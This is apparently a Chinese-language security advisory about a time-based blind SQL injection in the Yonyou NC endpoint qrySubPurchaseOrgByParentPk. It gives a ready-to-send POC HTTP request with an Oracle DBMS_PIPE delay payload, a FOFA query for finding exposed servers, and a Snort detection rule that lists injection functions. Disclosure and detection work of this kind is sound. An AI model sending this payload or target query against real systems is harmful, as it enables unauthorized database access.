

# 用友NC qrySubPurchaseOrgByParentPk 存在sql注入漏洞

用友NC qrySubPurchaseOrgByParentPk 存在sql注入漏洞

# 影响版本

用友NC

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   app="用友-UFIDA-NC"

## 漏洞POC

**POC/EXP：**

**step1**  延时注入

```
POST /ebvp/register/qrySubPurchaseOrgByParentPk HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Content-Length: 57
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN, zh;q=0.8, zh-TW;q=0.7, zh-HK;q=0.5, en-US;q=0.3, en;q=0.2
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=1D592C4E33917623C36CAF16FBB4F710.ncServer
Connection: keep-alive

pk_group=1' AND 1337=DBMS_PIPE.RECEIVE_MESSAGE('any', 5)--
```



**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"用友NC qrySubPurchaseOrgByParentPk SQL注入 - pk_group 时间盲注(DBMS_PIPE.RECEIVE_MESSAGE)";
    flow:to_server,established;
    http.method; content:"POST"; nocase;
    http.uri;
        content:"/ebvp/register/qrySubPurchaseOrgByParentPk";
        fast_pattern;
        nocase;
    http.content_type; content:"application/x-www-form-urlencoded"; nocase;
    http.client_body;
        content:"pk_group="; nocase;
        pcre:"/pk_group=[^&]*?(?:'|\%27).*?(?:dbms_pipe\s*\.\s*receive_message|dbms_lock\s*\.\s*sleep|waitfor\s+delay|pg_sleep\s*\(|sleep\s*\(|benchmark\s*\()/i";
    metadata:
        service http,
        affected_product "用友NC/UFIDA NC 电子商务平台",
        vulnerability_type "SQL Injection (Time-based Blind)",
        reference "DVB-2025-9360; RegCommonController.qrySubPurchaseOrgByParentPk",
        severity "critical";
    classtype:web-application-attack;
    sid:1001601;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

- **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。
